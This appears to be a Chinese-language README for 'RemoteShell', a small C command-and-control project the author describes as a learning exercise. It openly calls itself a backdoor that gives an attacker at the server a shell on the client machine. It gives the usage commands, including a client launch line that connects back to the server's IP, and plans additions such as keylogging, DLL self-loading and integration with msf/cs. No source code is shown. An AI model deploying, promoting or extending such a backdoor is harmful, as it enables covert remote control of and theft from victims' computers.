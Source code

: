 # RemoteShell
这个项目是我学习C的windowsAPI和网络编程时完成的一个小项目。 在客户端上运行后门之后，服务器上的攻击者可以获得客户端计算机的shell并执行命令。

## Usage

**C2Client:**

```
C2Client.exe 192.168.1.2             #192.168.1.2为服务端ip
```

**C2Server:**

```
C2Server.exe
```

![](png1.png)

![](png2.png)

**PS:**

该项目采用windows管道传输CreateProcess创建的进程的返回值，有些命令会产生一些bug(如net share等)。后期可能会考虑改进这个简易版远控，优化上面的bug和加入键盘监听、dll自加载、联动msf、cs等功能。不过这些要等我不忙的时候了，最近实在太忙太忙，敬请期待......